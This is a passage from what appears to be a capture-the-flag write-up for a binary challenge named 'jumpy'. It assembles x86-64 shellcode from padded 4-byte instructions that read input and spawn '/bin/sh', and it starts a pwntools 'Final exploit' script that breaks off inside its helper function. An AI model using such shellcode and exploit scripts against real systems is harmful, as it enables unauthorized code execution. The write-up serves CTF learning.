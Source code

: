 ```asm
mov eax,ecx;syscall         ; move ecx into eax and perform syscall
```

Turning this into python code, and adding some padding so every individual primitive has 4 bytes of instructions, we end up with:

```python
shellcode = [
    asm("nop; xor rdx,rdx"),
    asm("add rdx,40"),
    asm("nop; mov rsi, rsp "),
    asm("nop; xor rdi, rdi "),
    asm("xor eax,eax; syscall "),
    
    asm("nop; xor rdx,rdx"),
    asm("nop; mov rdi,rsi"),
    asm("nop; xor rsi,rsi"),
    asm("nop; xor rcx,rcx"),
    asm("add rcx, 59"),
    asm("mov eax,ecx; syscall"),
    b"\xcc\xcc\xcc\xcc"
]
```

We pretty much have everything we need now. Send all of these segmented instructions by using the function we made earlier and then send some nonsense like `run` or `tsar` to actually break out of the input loop and execute our code.

```python
for part in shellcode:
    primitive(r, u("<I",part))

r.sendline(b"run")
```

The program should be waiting for input because we first made a syscall to `read()`, so now we send it the string "/bin/sh\\x00". The `\x00` is a nullbyte for proper string termination.

```python
r.sendline(b"/bin/sh\x00")
```

## Final exploit

```python
#!/usr/bin/env python3

from pwn import *
from struct import pack as p, unpack as u

r = process("./jumpy")
context.update(arch="amd64")

r.recvuntil(b">")

def primitive(r, code):
    code = b"%d" % code
    print(f"[+] sending primitive.. {code}" )
    r.sendline(b"moveax")
    r.sendline(b"65769616")
    r.recvuntil(b">")
    r.sendline(b"jmp")
    r.sendline(b"-4")
    r.recvuntil(b">")
    r.sendline(b"moveax")
    r.sendline(code)
    r.recvuntil(b">")
```